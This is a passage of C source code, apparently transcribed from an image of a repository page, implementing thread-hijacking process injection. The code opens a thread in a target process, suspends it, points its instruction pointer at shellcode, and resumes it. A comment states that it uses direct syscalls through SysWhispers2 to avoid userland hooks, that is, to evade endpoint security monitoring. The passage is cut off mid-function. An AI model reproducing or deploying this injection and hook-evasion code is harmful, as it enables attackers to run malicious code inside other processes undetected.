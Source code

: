 ```c
                NTSTATUS OpenThreadStatus = NtOpenThread(&threadHandle, THREAD_ALL_ACCESS, &ObjectAttributes, &ClientId);

                if (OpenThreadStatus == 0 && threadHandle) {
                        break;
                }
#ifdef _DEBUG
                else {
                    printf("Opening of target process thread with NtOpenThread failed: %x\n", OpenThreadStatus);
                    return -1;
                }
#endif
            }
        } while (Thread32Next(snapshot, &threadEntry));
    }

    /* Standard API (no error check). */
    //SuspendThread(threadHandle);
    //GetThreadContext(threadHandle, &context);
    //context.Rip = (DWORD_PTR) shellcodeBaseAddress;
    //SetThreadContext(threadHandle, &context);

    //ResumeThread(threadHandle);

    /* Direct syscall with Syswhisper2 to avoid userland hooks. */

    NTSTATUS SuspendThreadStatus = NtSuspendThread(threadHandle, NULL);
    if (SuspendThreadStatus != 0) {
#ifdef _DEBUG
        printf("Suspending of target thread with NtSuspendThread failed: %x\n", SuspendThreadStatus);
#endif
        return 1;
    }


    NTSTATUS GetContextThreadStatus = NtGetContextThread(threadHandle, &context);
    if (GetContextThreadStatus != 0) {
#ifdef _DEBUG
        printf("Getting context of remote thread with NtGetContextThread failed: %x\n", GetContextThreadStatus);
#endif
        return 1;
    }

    context.Rip = (DWORD_PTR) shellcodeBaseAddress;

    NTSTATUS SetContextThreadStatus = NtSetContextThread(threadHandle, &context);
    if (SetContextThreadStatus != 0) {
#ifdef _DEBUG
        printf("Setting context of remote thread with NtSetContextThread failed: %x\n", SetContextThreadStatus);
#endif
        return 1;
    }

    NTSTATUS NtResumeThreadStatus = NtResumeThread(threadHandle, NULL);
    if (NtResumeThreadStatus != 0) {
#ifdef _DEBUG
        printf("Resuming hijacked thread with NtResumeThread failed: %x\n", NtResumeThreadStatus);
#endif
        return 1;
```